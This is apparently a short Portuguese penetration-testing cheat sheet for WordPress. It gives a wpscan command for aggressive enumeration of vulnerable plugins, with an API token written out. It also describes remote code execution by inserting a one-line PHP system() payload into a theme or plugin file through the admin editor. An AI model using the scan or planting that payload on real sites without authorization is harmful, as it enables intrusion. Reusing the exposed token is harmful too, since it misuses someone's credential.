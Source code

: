 # Wordpress  

**Base de vulnerabilidades**
wpvulndb.com

## Ferramentas

### wpscan  

**Identificação de plugins vulneráveis com a API do WPScan**
`wpscan --url www.alvo.com.br -e vp --plugins-detection aggressive --api-token zBY8oaRacNAkSITVO2tKx4BZDbgjOsDiVjMqEntqkj4`

## Exploração

**RCE no painel administrativo**  
Busque por arquivo com permissões para edição no editor de temas ou plugins e inclua o payload em PHP.

`<?php system(id);?>`